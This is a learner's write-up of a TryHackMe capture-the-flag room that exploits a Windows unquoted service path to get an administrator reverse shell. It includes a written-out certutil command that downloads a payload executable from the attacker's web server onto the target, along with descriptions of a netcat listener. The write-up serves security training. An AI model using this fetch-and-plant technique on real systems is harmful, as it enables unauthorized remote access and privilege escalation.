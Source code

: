 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

![3cc90c64c1d1ac43d1aef70c73009f4e.png](../_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png)

<p>
  <img height="128" src="./3cc90c64c1d1ac43d1aef70c73009f4e.png">
</p>
  
* * *
### Reconnaissance
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

![658494285c75fb47f7e816ce2fc218a1.png](../_resources/658494285c75fb47f7e816ce2fc218a1.png)

It looks like we're not very special and only have general access.

![3dadeb6debd6380cdab64b97820bbbaa.png](../_resources/3dadeb6debd6380cdab64b97820bbbaa.png)

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

![a0b61d9dd05b25eb245f52e170b292a1.png](../_resources/a0b61d9dd05b25eb245f52e170b292a1.png)

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

![95562cfa26ee77ee2229ff38837c2efb.png](../_resources/95562cfa26ee77ee2229ff38837c2efb.png)

Let's investigate.

![0ada677f68c1d969a7520527e7a983c4.png](../_resources/0ada677f68c1d969a7520527e7a983c4.png)

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

![69003b3b6fa29e0ca5cd9b402cc1815c.png](../_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png)

Now we need to start a web server on our Kali machine.

![7eed70e4cd3a5000fb4542483de44f67.png](../_resources/7eed70e4cd3a5000fb4542483de44f67.png)

And we need to download the executable from our target machine.

![e2c62b94d766594d957550f4eabbe889.png](../_resources/e2c62b94d766594d957550f4eabbe889.png)

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

![e57fff9a846ab29bc1461d3146275646.png](../_resources/e57fff9a846ab29bc1461d3146275646.png)

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

![d65e82940e2f358055650fc96fb76da2.png](../_resources/d65e82940e2f358055650fc96fb76da2.png)

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

![f314cea54ab81f3928c495244f3b2faa.png](../_resources/f314cea54ab81f3928c495244f3b2faa.png)
* * *
### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

![b9983bdb900bafc38d417afd67737caa.png](../_resources/b9983bdb900bafc38d417afd67737caa.png)
* * *
### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.
